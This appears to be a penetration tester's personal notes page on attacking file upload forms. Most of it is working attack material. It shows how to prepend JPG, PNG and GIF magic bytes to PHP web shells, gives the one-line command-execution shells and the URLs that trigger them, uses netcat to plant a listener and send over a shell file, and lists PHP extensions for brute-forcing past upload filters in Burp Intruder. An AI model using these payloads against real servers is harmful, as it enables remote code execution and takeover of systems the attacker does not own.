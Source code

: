 #### formats
Windows: Try asp, aspx, hta, doc malicious file uploads.
Web: Try php
#### weevely
[[Weevely]]
#### filter bypass
Inspect for filters from web page:
Right click on "Chose File" button > Inspect
Look for some form of "accept=" property.
ALSO, look in main file, such as main.js
Look into `allowedMimeType` for file types.
In this example, we see we can upload xml files.
[[11._XML XXE#Quick file upload win]]
#### Magic bytes
Magic bytes are used to identify the type of the file, and are usually found at the beginning of it. Other files have the magic bytes at their offset, while some other files (such as plain text files) do not have magic bytes at all. The position of the magic bytes also varies on different filesystems.
JPG:
Adding magic bytes for the JPG format to our PHP file might let us bypass this check.  We can refer to the list of magic bytes at https://en.wikipedia.org/wiki/List_of_file_signatures.
Valid magic bytes for a JPG/JPEG file are:
1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ?? ?? 45 78 69 66 00 00`
```bash - kali
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
```
```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.jpg
```
`http://$TARGET/uploads/webshell.php.jpg?cmd=whoami`
PNG:
The magic bytes for PNG are:
1. `89 50 4E 47 0D 0A 1A 0A`
```bash - kali
echo '89504E470D0A1A0A' | xxd -r -p > webshell.php.png
```
```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.png
```
`http://$TARGET/uploads/webshell.php.png?cmd=whoami`
#### GIF
Upload Shelly.php as a "GIF"
```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```
#### File upload webshell
Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```
Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```
Visit file upload to connect reverse shell.
### Bypassing extension limits.
1. Capture and upload in Burp.
2. Send to Intruder.
3. Dictionary attack the extension (PHP example below).
```burpsuite - kali
php
php3
php4
php5
phtml
```
